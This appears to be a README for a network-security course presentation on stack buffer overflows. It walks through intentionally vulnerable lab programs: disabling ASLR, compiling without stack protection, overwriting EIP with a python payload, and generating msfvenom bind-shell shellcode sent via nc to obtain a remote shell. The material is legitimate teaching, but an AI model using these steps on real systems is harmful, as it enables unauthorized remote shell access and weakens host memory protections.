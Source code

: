 # NetworkSecurityPresentation
Presentation for the NetSec course based on Buffer overflow exploit

# Requisite
    
## disable memory randomization, enable core dumps
```bash
    cat /proc/sys/kernel/randomize_va_space
    sudo bash -c 'echo "kernel.randomize_va_space = 0" >> /etc/sysctl.conf'
    sudo sysctl -p
    cat /proc/sys/kernel/randomize_va_space
    # verify "0"
    ulimit -c unlimited
    ulimit -c
    # verify "unlimited"
```
# Test Exercise

This test exercise is used to explain how memory works and how data is managed into the stack.

## Compilation
```bash
    cd /path/to/repo/src
    gcc -O0 -m32 -z execstack -fno-stack-protector -mpreferred-stack-boundary=2 -g exercise_test.c -o exercise_test
```

## Execution
```bash
    cd /path/to/repo/src
    ./exercise_test
```
# First Exercise

The first exercise consists in overwrite a variable used to grant permission to a user using the `strcpy()` vulnerable function

## Compilation
```bash
    cd /path/to/repo/src
    gcc -O0 -m32 -z execstack -fno-stack-protector -mpreferred-stack-boundary=2 -g exercise1.c -o exercise1
```

## Execution
```bash
    cd /path/to/repo/src
    ./exercise input
```
# Second Exercise

The second exercise consists in overwrite the `%eip` register of the stack in order to redirect the program to a chosen function using the `strcpy()` vulnerable function and the `gdb` debugger in order to find out the right number of junk chars to fill up the stack

## Compilation
```bash
    cd /path/to/repo/src
    gcc -O0 -m32 -z execstack -fno-stack-protector -mpreferred-stack-boundary=2 -g exercise2.c -o exercise2
```

## Find out the function register
```bash
    cd /path/to/repo/src
    objdump -d exercise2 | grep <function_name>
```
## Execution
```bash
    cd /path/to/repo/src
    ./exercise $(python2 -c 'print"A"*<num_char> + "function register"')
```
    keep in mind that the intel cpu are Little Endian so pay attention when insert the register
# Third Exercise
The third exercise consists in overwrite the `%eip` register of the stack and fill up the buffer with a shellcode in order to spawn a remote shell possibly with root privileges
## Compilation server
```bash
    cd /path/to/repo/src
    gcc -O0 -m32 -z execstack -fno-stack-protector -mpreferred-stack-boundary=2 -g p4-server.c -o p4-server
```

## Create a shellcode using msfvenom
```bash
    msfvenom -p linux/x86/shell_bind_tcp AppendExit=true -e x86/alpha_mixed -f python
```
## Execution server
```bash
    cd /path/to/repo/src
    ./p4-server
```

## Execution Client
```bash
    ./generate_malicious_string > string
    nc <server_port> 4001 < string 
    to generate the malicious string use the buffer output of the previous command and the %eip register found using the debugger

    nc <server_port> 4444 
    here's your remote shell :)
```
